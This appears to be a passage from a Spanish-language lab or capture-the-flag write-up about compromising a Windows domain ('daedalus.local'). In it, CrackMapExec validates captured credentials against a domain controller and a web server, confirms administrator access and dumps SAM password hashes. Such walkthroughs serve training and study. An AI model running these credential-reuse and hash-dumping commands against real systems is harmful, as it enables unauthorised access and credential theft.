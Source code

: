 Para facilitar futuras acciones y ataques, añadimos las direcciones IP y sus respectivos nombres de dominio al archivo /etc/hosts.

```bash
❯ echo "192.168.10.39 web01.daedalus.local" | sudo tee -a /etc/hosts
❯ echo "192.168.10.6 daedalus.local dc1.daedalus.local" | sudo tee -a /etc/hosts  
```

Posteriormente, confirmamos que las credenciales obtenidas en la tarea hacia el controlador de dominio (DC1) son válidas.

```bash
❯ crackmapexec smb dc1.daedalus.local -u billing_user -p D43d4******ngB055
SMB         daedalus.local  445    DC1              [*] Windows 10.0 Build 17763 x64 (name:DC1) (domain:daedalus.local) (signing:True) (SMBv1:False)  
SMB         daedalus.local  445    DC1              [+] daedalus.local\billing_user:D43d********1ngB055
```

Finalmente, al examinar los administradores locales en WEB01, descubrimos que el usuario "billing_user" es miembro del grupo de administradores a nivel de dominio. Esta cuenta de usuario tiene la misma contraseña que se obtuvo anteriormente.

```powershell
PS C:\ProgramData> net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain  

Members

-------------------------------------------------------------------------------
Administrator
DAEDALUS\billing_user
DAEDALUS\Domain Admins
The command completed successfully.
```

Al utilizar CrackMapExec nuevamente, pero esta vez hacia WEB01, se confirmó que se tiene acceso con privilegios máximos ("Pwn3d!"). Por lo tanto, se puede proceder a realizar el volcado de la SAM (Security Accounts Manager).

```bash
❯ crackmapexec smb web01.daedalus.local -u billing_user -p D43d4******ngB055
SMB         web01.daedalus.local 445    WEB01            [*] Windows Server 2019 Standard 17763 x64 (name:WEB01) (domain:daedalus.local) (signing:False) (SMBv1:True)  
SMB         web01.daedalus.local 445    WEB01            [+] daedalus.local\billing_user:D43d4******ngB055 (Pwn3d!)

❯ crackmapexec smb web01.daedalus.local -u billing_user -p D43d4******ngB055 --sam
SMB         web01.daedalus.local 445    WEB01            [*] Windows Server 2019 Standard 17763 x64 (name:WEB01) (domain:daedalus.local) (signing:False) (SMBv1:True)  
SMB         web01.daedalus.local 445    WEB01            [+] daedalus.local\billing_user:D43d4******ngB055 (Pwn3d!)
SMB         web01.daedalus.local 445    WEB01            [*] Dumping SAM hashes
SMB         web01.daedalus.local 445    WEB01            Administrator:500:aad3********************9511b9a10d7d026322e8521:::
SMB         web01.daedalus.local 445    WEB01            Guest:501:aad3b435b514**********************fe0d16ae931b73c59d7e0c089c0:::
SMB         web01.daedalus.local 445    WEB01            DefaultAccount:503:aa****************************e0c089c0:::
SMB         web01.daedalus.local 445    WEB01            WDAGUtilityAccount:504:aad3b****************************5ffc477a12c27bea2:::
SMB         web01.daedalus.local 445    WEB01            svc_dev:1003:aad3b435b*****************************888169ce31d0b80ce67114a74e:::
SMB         web01.daedalus.local 445    WEB01            [+] Added 5 SAM hashes to the database
```
